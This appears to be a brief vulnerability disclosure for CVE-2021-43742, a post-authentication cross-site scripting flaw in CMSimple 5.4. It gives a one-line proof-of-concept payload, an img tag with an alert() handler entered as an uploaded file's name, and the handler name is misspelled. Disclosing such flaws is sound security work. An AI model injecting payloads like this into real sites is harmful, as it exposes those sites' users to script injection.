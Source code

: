 

<h1>CVE-2021-43742</h1>

```CMSimple 5.4```

Reported by S1lv3r

```Description :```

Post-auth XSS

```Version :```
CMSimple 5.4 Version

```Attack Type:```
Local

PoC
``` javascript
> <img src='1' onerorr=alert('Silv3r')>s.php

```

```1-``` Go to uploading files section, Then write XSS payload on filename : <br/>


<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/REQ.png"  /><br/>


```2-``` Result <br/>


<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/XSSPoc.png"  /><br/>



